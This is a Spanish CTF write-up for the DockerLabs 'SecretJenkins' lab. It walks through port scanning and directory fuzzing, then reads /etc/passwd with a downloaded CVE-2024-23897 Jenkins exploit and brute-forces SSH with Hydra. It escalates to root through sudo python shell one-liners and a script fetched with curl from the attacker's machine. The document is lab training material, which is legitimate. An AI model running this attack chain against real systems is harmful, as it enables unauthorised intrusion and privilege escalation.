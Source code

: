# [SecretHacking](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh secretjenkins.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).
<br>
<br>

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **8080** y el **22**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a1c0f66b-e114-4d9c-8b06-44d197ff9d93)
<br>
<br>
## Página Web (Puerto 8080)

Al ver que está abierto el puerto 8080 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:8080` ya que es el puerto 8080 el que aloja este servidor Web. Podemos ver un panel de login para Jenkins: 

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedfd01c-7a4d-45a9-a0b0-dd8b66cf42ac)

<br>

Si probamos ha hacer un fuzzing web ya sea con gobuster o wfuzz. De la siguiente forma `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2:8080/ -x txt,sql,py,js,php,html`, observamos que nos detecta muchos de subdirecctorios.  <br>
`-w` ⮞ ruta al diccionario para usar en el descubrimiento de subdirecctorios <br>
`u` ⮞ dirección donde se aloja el servidor web <br>
`x` ⮞ extensiones de archivos para descubrir en el fuzzins <br>
<br>

Si probamos con el primero de ellos `index` podemos ver que abajo a la derecha la versión del Jenkins usada: 
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7f7eda42-68f8-44bf-ab5e-eb70c4115cb2)
<br>
<br>
## Jenkins 2.441
Ahora que conocemos la versión de Jenkins podemos buscar en Internet en búsquedad de exploits para esta versión en especifico de la siguiente forma: `jenkins 2.44.1 github exploit`. Y nos encontramos con el siguiente repositorio de 
[github](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability). En el encontramos un poco de información sobre la vulnerabilidad a explotar, la cual consiste en leer archivos 
del sistema (LFI)<br>

Nos descargamos el exploit en python con wget de la siguiente forma
`wget https://raw.githubusercontent.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability/main/CVE-2024-23897.py` <br>, le asignamos permisos de ejecución con `chmod +x CVE-2024-23897.py`. Su uso es muy sencillo solo hay que poner la url de la página web con Jenkins y el archivo que queremos leer por lo tanto sería tal que así `python3 CVE-2024-23897.py -u http://172.17.0.2:8080/ -f /etc/passwd`. Y observamos el arhcivo de `/etc/passwd` donde podemos leer algunos usuarios como `bobby y pinguinito`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/081ea4f9-5afc-45e5-9375-a911c288fb91)
<br>
<br>

## Hydra / Medusa
Una vez conocemos los posibles usuarios los metemos un archivo llamdo `users` aplicamos un ataque de fuerza fruta con hydra con el siguiente comando: `hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-U` ⮞ el archivo con los posibles usuarios es decir (bobby,pinguinito) <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) <br> 
<br>
<br>

Nos reporta lo siguente: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/13bb5fb7-d465-4fbe-8bde-1d49fe9f9bea)
<br>
<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probramos a entrar a la máquina Vacaciones con `ssh bobby@172.17.0.2`, y a continuación nos pedirá la contraseña. *Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución.* <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)
<br>
<br>

## Escala de Privilegios
Comprobamos que hemos podido ingresar a la Máquina Víctima como **bobby** <br>
Si ejecutamos `sudo -l` podemos ver que podemos ejecutar sin proporcionar contraseña con el usuario **pinguinito**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/784a5bb5-c6e0-4895-8a7e-abd7d12b0c20)
<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando `sudo python -c 'import os; os.system("/bin/sh")'`. Y lo ejecutaríamos de lwa siguiente forma `sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`. <br>
<br>

Y ya seríamos el usuario **pinguinito**, ejecutamos otras vez el `sudo -l` y nos encontramos con lo siguiente: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedce804-521c-4d03-b0e4-76d927b1c1fc)
<br>

Por lo que nos dirigimos a la ubicación del archivo e intentamos modificarlo para ejecutar una shell con python, nos damos cuenta que no contamos con ningún editor de texto, pero si tenemos curl por lo que desde nuestra máquina de atacante nos creamos un archivo llamado `script.py` que contendría lo siguiente: <br>
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5b7b63aa-43b6-49b4-ac98-acbc1d40dc20)
<br>

No montamos un servidor HTTP en python en la ubicación de nuestro archivo `script.py` de la siguiente forma `python3 -m http.server 80` para poder compartir dicho archivo con la máquina de **SecretJenkins**. <br>

Ahora en la máquina **SecretJenkins** accedemos al archivo de la siguiente forma `curl http://172.17.0.1/script.py -O script.py`, antes deberíamos haber puesto permiso de escritura en el archivo `scirpt.py` con `chmod +w script.py`. Una vez tenemos dicho archivo hacemos `sudo -u root /usr/bin/python3 /opt/script.py` para ejecutar dicho archivo como root y listo ya somos root:  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d9f1e7ce-a131-4683-9fdb-fe976dcad531)
<br>
